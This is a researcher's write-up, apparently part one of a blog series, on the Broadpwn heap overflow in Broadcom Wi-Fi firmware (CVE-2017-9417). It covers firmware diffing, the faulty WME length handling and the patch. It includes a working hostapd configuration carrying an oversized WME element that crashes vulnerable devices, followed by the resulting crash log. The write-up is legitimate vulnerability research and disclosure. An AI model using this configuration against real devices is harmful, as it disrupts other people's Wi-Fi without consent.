

This is part 1 of a two-part series on Broadpwn: part 2 is here: Crashing phones with Wi-Fi: Exploiting nitayart's Broadpwn bug (CVE-2017-9417)
Out of curiousity, I looked into Nitay Artenstein's Broadpwn bug (CVE-2017-9417), which was patched in the July Android Security Bulletin.
Broadpwn is a heap overflow on Broadcom Wi-Fi chips. It's triggered when a device receives a WME (Quality-of-Service) information element with a malformed length from a connected network. Scanning for networks without connecting doesn't seem to trigger the bug.
According to @nitayart, who discovered the bug, connecting to a malicious network is not necessary, but I haven't figured out how that would work.
This supposedly affects many recent Android and iOS devices with Broadcom Wi-Fi, but I only experienced effects on a Nexus 6P with June 2017 firmware, and did not seem to affect any iOS devices I tested.
To protect a device, you might want to ensure that it only connects to known good networks, and disable auto connection on unsecured networks.
I don't know anything else about this bug - I was just curious. You should wait for @nitayart - who discovered the bug - to present the findings.
To analyze the bug, I compared the June 2017 firmware on a Nexus 6P (N2G47W) with the patched July 2017 firmware (N2G48B).
I followed Project Zero's and Nexmon's guide to extract the firmware. The BCM4358 has two parts to its firmware; the RAM, which is mapped at 0x180000, can be found at /vendor/firmware/fw_bcmdhd.bin. The ROM, which is mapped at 0x0 and is patched by the RAM at runtime, can be dumped from the device. To do that, I followed Nexmon's guide, obtained a copy of dhdutil from LineageOS, and ran on my rooted device
# ./dhdutil -i wlan0 membytes -r 0x0 0xA0000 > rom.bin
to dump the ROM.
I then installed the July firmware and repeated the steps. Then, I loaded the two firmwares into BinDiff, which found changes in function 0x1b8ad0.
An internet search identified this function as wlc_bss_parse_wme_ie. This function is called to handle association, reassociation, and beacon packets. These packets contain information elements, which contains data for extensions to the Wi-Fi standard. The format of each information element (IE) is:
type (1 byte), length (1 byte), data of (length) bytes
This function processes WME information elements, which are used for the Quality of Service extension. Here's the format of a WME information element:
The bug occurs in the association/reassociation section. It copies the received IE to a preallocated heap buffer that's 24 (0x18) bytes long, sized for the largest valid WME information element, but uses the length from the information element header, which can be up to 255 (0xff), creating a heap out-of-bounds write of 231 bytes.
The patched firmware verifies the length of the IE: if it's not 24 bytes, the firmware ignores the IE, fixing the bug.
This bug can easily be reproduced, as the latest version of Hostapd, the standard software for setting up access points on a Linux computer, supports sending custom information elements.
My setup uses Ubuntu 14.04, hostapd 2.6 compiled from source with defconfig, and the integrated Intel Corporation Wireless 7260 (rev 6b) Wi-Fi card.
Hostapd config:
# WiFi Hotspot interface=wlan0 driver=nl80211 #Access Point ssid=YourNetworkNameHere hw_mode=g # WiFi Channel: channel=1 macaddr_acl=0 auth_algs=1 ignore_broadcast_ssid=0 assocresp_elements=ddff0050f2020101000003a4000027a4000042435e0062322f00414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141 vendor_elements=ddff0050f2020101000003a4000027a4000042435e0062322f00414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141Gist version
Once the access point is setup, attempt to connect a vulnerable device to the new network. It should fail to connect, the wi-fi card should reset (the Wi-Fi config screen should go empty for a second), and in the device's dmesg should see:
[ 694.426930] CFG80211-ERROR) wl_cfg80211_disconnect : Reason 2 [ 694.926196] CFG80211-ERROR) wl_cfg80211_connect : timeout in waiting disconnect event [ 694.933149] CFG80211-ERROR) wl_cfg80211_connect : Connecting to ff:ff:ff:ff:ff:ff with channel (1) ssid YourNetworkNameHere [ 695.324023] wl_bss_connect_done succeeded with 41:41:41:41:41:41 [ 695.397981] PCIe shared addr read took 0 usec before dongle is ready [ 695.398360] DMA RX offset from shared Area 0 [ 695.398377] bus->txmode_push is set to 0 [ 695.398575] ring_info_raw: 56 [ 695.326927] "!wf_chspec_malformed(chspec)": file "bcmwifi_channels.c", line"!wf_chspec_malformed(chspec)": file "bcmwifi_channels.c", line [ 695.398592] 8c 97 23 00 5c 9a 23 00 04 9b 23 00 ac 9b 23 00 [ 695.398652] b8 9b 23 00 00 00 00 00 00 00 00 00 00 00 00 00 [ 695.398699] 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 [ 695.398744] 00 00 00 00 2a 00 00 00 [ 695.398774] max H2D queues 42 [ 695.399363] CONSOLE: 37.4Mhz [ 695.399379] CONSOLE: 000000.173 wl0: wlc_enable_probe_req: state down, deferring setting of host flags [ 695.399388] CONSOLE: 000000.177 wl0: wl_open [ 695.399394] CONSOLE: 000003.640 wl0: link up (wl0) [ 695.399401] CONSOLE: 000003.645 [ 695.399412] CONSOLE: FWID 01-a2412ac4 [ 695.399420] CONSOLE: flags 60040005 [ 695.399425] CONSOLE: 000003.645 [ 695.399430] CONSOLE: TRAP 4(23fc30): pc 5550c, lr 2f697, sp 23fc88, cpsr 2000019f, spsr 200001bf [ 695.399435] CONSOLE: 000003.645 dfsr 1, dfar 41414145 [ 695.399441] CONSOLE: 000003.645 r0 41414141, r1 2, r2 1, r3 0, r4 22cc00, r5 217634, r6 217048 [ 695.399449] CONSOLE: 000003.645 r7 2, r8 56, r9 1, r10 216120, r11 217224, r12 8848cb89 [ 695.399455] CONSOLE: 000003.645 [ 695.399460] CONSOLE: sp+0 00000002 0022cc00 0022d974 00217634 [ 695.399465] CONSOLE: 000003.645 sp+10 00000004 0001aa83 0022d97f 00000168 [ 695.399471] CONSOLE: [ 695.399476] CONSOLE: 000003.645 sp+14 0001aa83 [ 695.399481] CONSOLE: 000003.645 sp+38 000937eb [ 695.399486] CONSOLE: 000003.645 sp+44 00003b15 [ 695.399492] CONSOLE: 000003.645 sp+4c 00088659 [ 695.399497] CONSOLE: 000003.645 sp+64 00008fc7 [ 695.399502] CONSOLE: 000003.645 sp+74 0000379b [ 695.399507] CONSOLE: 000003.645 sp+94 00000a29 [ 695.399512] CONSOLE: 000003.645 sp+c4 0019a9e1 [ 695.399517] CONSOLE: 000003.645 sp+e4 00006a4d [ 695.399523] CONSOLE: 000003.645 sp+11c 00188113 [ 695.399528] CONSOLE: 000003.645 sp+15c 000852ef [ 695.399533] CONSOLE: 000003.645 sp+180 00019735 [ 695.399538] CONSOLE: 000003.645 sp+194 0001ec73 [ 695.399543] CONSOLE: 000003.645 sp+1bc 00018ba5 [ 695.399549] CONSOLE: 000003.645 sp+1dc 00018a75 [ 695.399554] CONSOLE: 000003.645 sp+1fc 0000656b [ 695.399562] dhdpcie_checkdied: msgtrace address : 0x00000000 [ 695.399562] console address : 0x0023DEBC [ 695.399562] Assrt not built in dongle [ 695.399562] Dongle trap type 0x4 @ epc 0x5550c, cpsr 0x2000019f, spsr 0x200001bf, sp 0x23fc88,lp 0x2f697, rpc 0x5550c Trap offset 0x23fc30, r0 0x41414141, r1 0x2, r2 0x1, r3 0x0, r4 0x22cc00, r5 0x217634, r6 0x217048, r7 0x2
Surprisingly, not many devices are affected.
Firmware version:
Firmware version:
Firmware version:
I don't have any other devices using a recent Broadcom chip. Anybody want to test other devices?
The beacon code has the same issue, but is disabled until the first association response is processed, so just scanning for wi-fi shouldn't cause issues.
I wonder if one can spoof beacons or association responses from existing connected APs. There's 802.11w, Protected Management Frames which sounds relevant. If it's possible to spoof beacons or association responses, then it's not enough to avoid connecting to suspicious Wi-Fi; one must disable Wi-Fi entirely. Anyone want to chime in on the feasibility?
According to @nitayart, this exploit can get code execution on the Wi-Fi chip, and then on the main processor. This seems difficult: Project Zero's similar Broadcom Wi-Fi heap overflow was very complicated to exploit, and they had allocate/free primitives through the TDLS request/responses. The buffer overflowed here is allocated at firmware startup and only deallocated at shutdown, I believe, so it may be harder to exploit. I'm very much looking forward to @nitayart's presentation.